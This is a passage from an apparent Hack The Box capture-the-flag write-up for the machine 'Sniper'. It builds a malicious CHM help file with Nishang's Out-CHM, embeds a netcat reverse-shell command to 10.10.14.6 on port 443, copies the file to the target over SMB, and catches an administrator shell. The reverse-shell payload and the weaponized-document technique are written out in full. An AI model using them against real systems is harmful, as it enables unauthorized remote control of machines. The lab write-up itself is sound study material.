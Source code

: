 ```

PS > Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\Tools\nishang\doc.chm

Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics

Created c:\Tools\nishang\doc.chm, 13,458 bytes
Compression increased file by 266 bytes.

```

### Shell

Now I’ll move the result back to my Kali VM, into the Samba share, and then copy it over to Sniper:

```

C:\Docs>copy \\10.10.14.6\share\doc.chm .
        1 file(s) copied.

```

I’ll copy `nc64.exe` over as well:

```

C:\Docs>copy \\10.10.14.6\share\nc64.exe \windows\system32\spool\drivers\color\
        1 file(s) copied.  

```

In less than a minute:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.151.
Ncat: Connection from 10.10.10.151:57228.
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
sniper\administrator

```

And then I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
5624caf3************************

```

[Beyond Root »](/2020/04/09/htb-sniper-beyondroot.html)
